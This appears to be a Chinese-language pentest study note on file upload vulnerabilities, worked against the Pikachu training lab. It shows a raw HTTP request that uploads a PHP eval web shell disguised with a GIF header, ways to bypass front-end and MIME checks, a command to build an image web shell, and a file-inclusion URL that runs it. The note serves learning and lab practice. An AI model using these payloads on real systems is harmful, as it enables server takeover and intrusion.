 # 文件上传漏洞

## 原理

文件上传漏洞指程序设计之初，对上传文件类型的过滤过于简单，仅限于前端过滤或者后端过滤并且显示上传的路径，可以通过修改页面或者修改请求的方式绕过前端的过滤，并且使用一定的手法绕过后端的过滤，进而上传恶意一句话木马，得到webshell

## 应用

#### 1.对前端过滤的绕过

以pikachu为例

方法一

修改前端代码

onchange="checkFileExt(this.value)"

修改为

onchange="“或者onchange="true"

方法二

修改http请求包

```
POST /pikachu/vul/unsafeupload/clientcheck.php HTTP/1.1
Host: 172.16.0.137
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------29670290092885506822334398806
Content-Length: 422
Origin: http://172.16.0.137
Connection: close
Referer: http://172.16.0.137/pikachu/vul/unsafeupload/clientcheck.php
Cookie: PHPSESSID=b0addicveneoq2371f2mv7bpp0
Upgrade-Insecure-Requests: 1

-----------------------------29670290092885506822334398806
Content-Disposition: form-data; name="uploadfile"; filename="test.php" //01.如果上传的为图片文件，可将文件名改为.php
Content-Type: application/octet-stream //02.如果上传的为php文件，可以修改为image/jpg

GIF89a
<script language="php">eval($_POST['cmd']);</script> 
-----------------------------29670290092885506822334398806
Content-Disposition: form-data; name="submit"

å¼å§ä¸ä¼ 
-----------------------------29670290092885506822334398806--


```

#### 2.MIME

指http包里传递的一种文件类型

```
超文本标记语言文本 .html、.html：text/html

普通文本 .txt： text/plain

RTF 文本 .rtf： application/rtf

GIF 图形 .gif： image/gif

JPEG 图形 .jpeg、.jpg： image/jpeg

au 声音文件 .au： audio/basic

MIDI 音乐文件 mid、.midi： audio/midi、audio/x-midi

RealAudio 音乐文件 .ra、.ram： audio/x-pn-realaudio

MPEG 文件 .mpg、.mpeg： video/mpeg

AVI 文件 .avi： video/x-msvideo

GZIP 文件 .gz： application/x-gzip

TAR 文件 .tar： application/x-tar
```

基本和上面类似

#### 3.getimagesize

指解析图片，使用xxd 空白.png 查看二进制文件

制作图片马

```
copy /b kb.png(基础图片) + muma.php（一句话马） muma.png（恶意文件）
```

可以先上传该木马，然后使用本地文件包含漏洞运行木马

```
uploads/2022/08/19/12714862ff9d39c61f5814494212.png
```

拼接文件包含漏洞

```
http://172.16.0.137/pikachu/vul/fileinclude/fi_local.php?filename=../../unsafeuploads/uploads/2022/08/19/59155162ff9e288cf55305959265.png&submit=%E6%8F%90%E4%BA%A4
```

如果出现乱码，说明基本成功了


